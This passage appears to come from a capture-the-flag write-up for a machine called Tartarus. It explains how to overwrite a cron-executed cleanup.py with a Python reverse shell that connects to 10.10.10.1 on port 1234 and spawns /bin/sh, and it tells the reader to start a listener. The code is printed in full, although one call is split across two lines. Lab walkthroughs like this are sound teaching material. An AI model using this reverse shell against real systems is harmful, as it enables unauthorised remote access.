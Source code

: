 ![](assets/images/tartarus/tartarus_crontab.png)
<br>
<br>

So now all we have to do is rewrite the `cleanup.py` to give us a reverse shell on our attacking machine. You can find the python3 reverse shell on [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). We will need to modify it so it's not a terminal command as well as change the ip address to our own. It should look something like the following with your own ip substituted.
<br>
<br>

```
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.1",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.c
all(["/bin/sh","-i"])
```
<br>

Now we just set up a listener, and wait 2 minutes.
<br>
<br>
